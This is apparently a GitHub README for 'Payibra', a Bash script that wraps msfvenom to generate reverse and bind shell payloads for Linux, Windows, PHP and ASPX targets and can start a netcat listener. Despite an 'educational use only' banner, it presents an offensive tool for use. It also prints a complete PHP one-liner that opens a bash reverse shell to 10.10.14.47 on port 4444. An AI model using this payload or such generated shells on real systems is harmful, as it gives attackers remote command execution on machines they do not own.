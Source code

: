 # PAYIBRA - Bash Payload Generator

****THIS TOOL IS FOR EDUCATIONAL USE ONLY ****

Author: Ibrahim


**Payibra** is a custom Bash script that helps you create different types of payloads using `msfvenom`. It supports Linux, Windows, PHP, and ASPX targets, and gives you options to set your IP, port, payload type, and more.

You can also choose between a full PHP meterpreter shell or a lightweight 2-line PHP reverse shell for fast use.

---

## Features

- Easy-to-use terminal interface
- Supports reverse and bind shell payloads
- Compatible with Linux, Windows, PHP, and ASPX
- Option to generate a small PHP shell (2 lines only)
- Optional automatic Netcat listener after payload creation
- Clean output and color formatting

---

## Requirements

Before using the script, make sure you have:

- A Linux environment (or WSL)
- Bash
- `msfvenom` (included with Metasploit)
- `figlet` (for the banner)

Install any missing tools:

```bash
sudo apt update
sudo apt install metasploit-framework figlet


Installation

Clone the tool and make it executable:

git clone https://github.com/YOUR-USERNAME/payibra.git
cd payibra
chmod +x payibra.sh

Usage

Run the script:

./payibra.sh

You'll be asked to choose:

    The target system (e.g. linux, windows, php)

    Payload type (reverse or bind)

    LHOST and LPORT

    Output filename

    Optional encoder and iterations

    For PHP: choose between full shell or simple 2-line version

Example of the simple PHP shell it can generate:

<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.47/4444 0>&1'"); ?>

After the payload is created, you’ll be asked if you want to start a Netcat listener.
